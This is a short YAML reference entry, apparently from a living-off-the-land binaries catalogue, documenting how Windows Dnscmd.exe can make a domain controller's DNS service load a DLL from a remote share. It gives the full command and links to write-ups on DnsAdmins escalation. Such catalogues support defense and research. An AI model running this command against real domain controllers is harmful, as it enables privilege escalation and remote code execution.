 ---
Name: Dnscmd.exe
Description: Execute
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: dnscmd.exe dc1.lab.int /config /serverlevelplugindll \\192.168.0.149\dll\wtf.dll
    Description: 'Adds a specially crafted DLL as a plug-in of the DNS Service.'
Full Path:
  - c:\windows\system32\Dnscmd.exe
  - c:\windows\sysWOW64\Dnscmd.exe
Code Sample: []
Detection: []
Resources:
  - https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83
  - https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html
  - https://github.com/dim0x69/dns-exe-persistance/tree/master/dns-plugindll-vcpp
  - https://twitter.com/Hexacorn/status/994000792628719618
  - http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html
Notes: |
    This command must be run on a DC by a user that is at least a member of the DnsAdmins group. See the refference links for DLL details.
    Thanks to Shay Ber - ?,
    Dimitrios Slamaris - @dim0x69,
    Nikhil SamratAshok,
    Mittal - @nikhil_mitt


